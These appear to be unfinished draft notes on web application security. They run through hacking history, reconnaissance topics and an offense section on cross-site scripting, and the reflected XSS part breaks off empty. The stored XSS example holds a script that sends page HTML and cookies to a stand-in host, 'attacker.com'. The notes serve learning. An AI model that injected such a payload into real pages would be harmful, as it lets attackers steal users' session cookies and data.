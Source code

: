 ```yaml
---
title: "Web application security: exploitation and countermeasures for modern web applications"
date: 2024-05-21T16:58:21+03:00
draft: true
---
```



# History of hacking
## War time
1. Marian Rejewski - first to break Enigma code
  > Manual
2. Alan Turing - the Bombe machine, used `known plaintext` attack (KPA)
  > Computer automation

## Telephone era
3. Phreaking - hacking phone lines. Free long calls becuase of the 2600 Hz tone, that was used to signal end of call.

## Computer era
4. Morris worm, first worm in 1988 


## Recon
The more hacker nows about the target, 
ex. how many users contribute revenue to each strea
Without this knowledge hacker cannot properly target web applications.

### Web application mapping
Build up a map that represetn the structure of a web applciation.
Keep notes in any format as long as it is traversable, and preserves relationships and hierarchies ex. JSON, Notion etc.

### Authentication and Authorization
- Authentication: Who are you?
- Authorization: What can you do?

### Storages
- localStorage - SOP (Same Origin Policy) 
- sessionStorage - persists until the tab is closed
- IndexedDB - NoSQL database

### Subdomain enumeration
- zone transfer - DNS record copy. If the server is misconfigured, it can be used to get a list of subdomains 

### API discovery
### Dependency analysis
- CVE (Common Vulnerabilities and Exposures) - list of known vulnerabilities


## Offense

### XSS (Cross Site Scripting)
Execute malicious scripts in the context of a web application

#### Stored XSS
Client -Save-> Server -Display-> Client

```html
Hello! Hope you are having a great day!
<script>
  var data = document.documentElement.outerHTML;
  fetch('http://attacker.com', {
    method: 'POST',
    body: data
    cookie: document.cookie
  });
</script>
```

#### Reflected XSS
```html
```
